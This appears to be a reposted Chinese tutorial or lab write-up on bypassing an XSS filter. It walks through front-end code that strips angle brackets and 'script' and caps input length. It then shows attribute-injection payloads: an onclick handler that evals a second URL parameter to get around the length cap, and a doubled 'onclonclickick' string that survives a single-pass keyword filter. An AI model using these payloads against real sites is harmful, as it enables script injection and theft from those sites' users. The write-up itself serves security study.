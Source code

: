 - 分析前端代码![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyjME7tZ0agyLw1KatOY2BVTz1ibEGEgVfABKenqwMOAwNww3G9qSbtUYVm4yysY71o5YMbViadEuqhg/640?wx_fmt=png&from=appmsg "")  
  
<table><tbody><tr><td><div>1</div><div>2</div><div>3</div><div>4</div></td><td><div><code>let query </code><code>=</code> <code>getParam(</code><code>&#39;query&#39;</code><code>)||&#39;&#39;</code></div><div><code>if</code> <code>(query){</code></div><div><code>query</code><code>=</code><code>query.replace(</code><code>/</code><code>&lt;|&gt;|script</code><code>/</code><code>g,&#39;&#39;).substring(</code><code>0</code><code>, </code><code>33</code><code>)</code></div><div><code>看到使用了query参数，其值为getParam(</code><code>&#39;query&#39;</code><code>)</code></div></td></tr></tbody></table>  
- getparam()函数分析![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyjME7tZ0agyLw1KatOY2BVTE9uSPibcO4QcBEmy9QVDIxiaEOfh9BcgIHFiaqyuktjeib9mEtobIBIE2A/640?wx_fmt=png&from=appmsg "")  
  
<table><tbody><tr><td><div>1</div><div>2</div><div>3</div><div>4</div><div>5</div><div>6</div></td><td><div><code>function getParam(name) {</code></div><div><code>if</code> <code>(location.search!</code><code>=</code><code>&#39;&#39;){</code></div><div><code>let param </code><code>=</code> <code>new URLSearchParams(location.search)</code></div><div><code>return</code> <code>decodeURI(param.get(name))</code></div><div><code>}</code></div><div><code>若链接中存在参数，则创建一个对象，值为所有参数，name对应参数名</code></div></td></tr></tbody></table>  
- 测试  
<table><tbody><tr><td><div>1</div></td><td><div><code>&#34;%20onclick=&#34;</code><code>eval</code><code>(getParam(Test))&#34;&amp;Test</code><code>=</code><code>其它代码</code></div></td></tr></tbody></table>  
![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyjME7tZ0agyLw1KatOY2BVTZcC2d1oGxagcCtynRCNgoicyxI2yZrxicNh0V0Eq6qeGTJUSicKSuEnqQ/640?wx_fmt=png&from=appmsg "")  
成功引用。已打破输入长度限制  
  
## 拼接绕过  
- 测试  
<table><tbody><tr><td><div>1</div></td><td><div><code>&#34;</code><code>&#34; onclonclickick=&#34;</code><code>alert(</code><code>1</code><code>)&#34;</code></div></td></tr></tbody></table>  
![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyjME7tZ0agyLw1KatOY2BVTd7YffrWgnQNxbJ3YKmtEdmQibDLsTUFEIicQ4kDXdBJrIslP9Pzaib8cA/640?wx_fmt=png&from=appmsg "")  
被过滤，发现onclick被过滤成立空字符  
  
- 拼接  
<table><tbody><tr><td><div>1</div></td><td><div><code>&#34;</code><code>&#34; onclonclickick=&#34;</code><code>alert(</code><code>1</code><code>)&#34;</code></div></td></tr></tbody></table>  
过滤一个在加一个![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyjME7tZ0agyLw1KatOY2BVT089uqe4nNFld0kuibJjOicyrStQVIYTrOjCzpG63SF8Zibn7EfAyf2eibA/640?wx_fmt=png&from=appmsg "")  
测试成功  
  
  
- ```
文章来源于互联网，只做学习交流，如有侵权请联系删除！原文链接：https://www.kanxue.com/chm.htm?id=15531&pid=node1000968
```  
  
-   
